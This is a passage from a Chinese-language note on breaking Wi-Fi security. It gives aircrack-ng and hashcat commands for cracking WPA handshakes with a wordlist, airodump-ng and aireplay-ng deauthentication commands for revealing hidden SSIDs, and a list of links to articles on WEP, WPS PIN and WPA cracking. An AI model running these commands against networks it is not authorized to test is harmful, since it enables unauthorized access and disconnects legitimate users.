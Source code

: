   \# aircrack-ng file.cap -J out.hccap
  
  使用GPU破解hash：
  
  \# hashcat -m 2500 out.hccap 字典文件
- ### 破解隐藏网络(隐藏SSID)
  
  难度：⭐
  
  ![使用Reaver破解开启了WPS功能的wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G016112542O7.JPG)
  
  **查看方法：**
  
  ~~~shell
  airodump-ng -c 6 --bssid C8:3A:35:30:3E:C8 wlan0mon
  aireplay-ng -0 30 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon
  ~~~
- ## 参考
  
  [无线网络的加密方式：WEP、WPA和WPA2](https://xie1997.blog.csdn.net/article/details/83316451)
  
  [使用Reaver破解开启了WPS功能的wifi密码(wpa/wpa2)](https://ywnz.com/linuxaq/113.html)
  
  [无线安全专题_破解篇02--kali破解pin](https://cloud.tencent.com/developer/article/1152164)
  
  [无线局域网安全（一）———WEP加密](https://blog.csdn.net/lee244868149/article/details/52691266)
  
  [从黑客角度来谈如何保护路由器-WPS破解方式（一）](https://zhuanlan.zhihu.com/p/41463410)
  
  [网络安全--跑PIN破解WiFi(详细教程)](https://blog.csdn.net/a1397852386/article/details/125572633)
  
  [WPA3---SAE原理介绍](https://blog.csdn.net/weixin_43408952/article/details/83044719)
  
  [什么是WPA3](https://info.support.huawei.com/info-finder/encyclopedia/zh/WPA3.html)